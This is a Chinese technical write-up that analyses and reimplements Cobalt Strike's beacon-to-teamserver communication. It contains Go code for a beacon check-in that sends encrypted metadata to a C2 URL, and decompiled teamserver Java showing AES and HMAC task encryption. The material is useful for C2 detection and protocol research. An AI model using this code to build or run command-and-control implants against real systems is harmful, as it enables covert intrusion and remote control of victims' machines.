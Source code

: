     
    func FirstBlood() bool {    encryptedMetaInfo = EncryptedMetaInfo()//源数据封包并加密    for {        respBytes := HttpGet(config.GetUrl, encryptedMetaInfo)//http封包并发送        if respBytes != nil {            break        }        time.Sleep(time.Duration(config.Sleep) * time.Millisecond)    }    return true}

  
测试结果，成功上线：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220218134447.png)  
  

 **1.2 下发Beacon的task数据**

  
上面介绍了beacon上线的通信数据，现在我们来看ts给beacon下发命令和执行结果返回的详细情况。  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220218134448.png)  
如上图是一次task下发到返回执行结果的过程：  
1\. beacon使用http get请求向ts发送上线数据的同时，获取ts返回的http get response即为封包的task任务数据。  
2\. 根据配置的profile信息，删除prepend data和append data得到AES加密的task数据。  
3\. AES解密task数据，并根据实际的task任务的类型执行相应的操作，并获得执行结果。  
4\. 将执行结果AES加密，并封包global key计算获得的HMAC，再进行base64编码。  
5\. 将执行结果封包后的数据加上prepend data和append data。  
6\. 最后进行http post数据封包，再发送给ts。  
 **1.2.1** **封装** **task** **任务数据 ****  
**当ts在收到http get请求之后，判断是否是beacon源数据返回之后就会查看ts的任务列表，如果有任
务，就会加密发送。decompiled_src/beacon/BeaconHTTP.java

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    BeaconEntry var7 = BeaconHTTP.this.controller.process_beacon_metadata(BeaconHTTP.this.listener, var5, CommonUtils.toBytes(var6), (String)null, 0); //解析http get返回的源数据if (var7 == null) {    MudgeSanity.debugRequest(".http-get.client.metadata", var3, var4, "", var1, var5);    return new byte[0];} else {    //获取beacon队列任务    byte[] var8 = BeaconHTTP.this.controller.dump(var7.getId(), 921600, 1048576);    //任务队列有任务    if (var8.length > 0) {        //加密任务数据        byte[] var9 = BeaconHTTP.this.controller.getSymmetricCrypto().encrypt(var7.getId(), var8);        return var9;    } else {        return new byte[0];    }}

  
跟进encrypt函数就是aes加密task任务数据。  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    //var1 bid//var2 task任务数据（taskType+taskBuffer）public byte[] encrypt(String var1, byte[] var2) {    try {        if (!this.isReady(var1)) {            CommonUtils.print_error("encrypt: No session for '" + var1 + "'");            return new byte[0];        }  
            ByteArrayOutputStream var3 = new ByteArrayOutputStream(var2.length + 1024);        DataOutputStream var15 = new DataOutputStream(var3);        SecretKey var5 = this.getKey(var1); //获取对应beacon的AESkey        SecretKey var6 = this.getHashKey(var1);//获取对应beacon的hashmac        var3.reset();        var15.writeInt((int)(System.currentTimeMillis() / 1000L)); //写入时间戳        var15.writeInt(var2.length);    //写入task任务数据长度        var15.write(var2, 0, var2.length);        this.pad(var3);        Object var7 = null;        byte[] var16;        synchronized(this.in) {            var16 = this.do_encrypt(var5, var3.toByteArray()); //AES加密任务数据        }  
            Object var8 = null;        byte[] var17;        synchronized(this.mac) {            this.mac.init(var6);            var17 = this.mac.doFinal(var16); //hashmac        }  
            ByteArrayOutputStream var9 = new ByteArrayOutputStream();        var9.write(var16);//写入加密后的task数据        var9.write(var17, 0, 16);//写入hashmac        byte[] var10 = var9.toByteArray();        return var10;    } catch (InvalidKeyException var13) {        MudgeSanity.logException("encrypt failure for: " + var1, var13, false);        CommonUtils.print_error_file("resources/crypto.txt");        MudgeSanity.debugJava();        SecretKey var4 = this.getKey(var1);        if (var4 != null) {            CommonUtils.print_info("Key's algorithm is: '" + var4.getAlgorithm() + "' ivspec is: " + this.ivspec);        }    } catch (Exception var14) {        MudgeSanity.logException("encrypt failure for: " + var1, var14, false);    }  
        return new byte[0];}
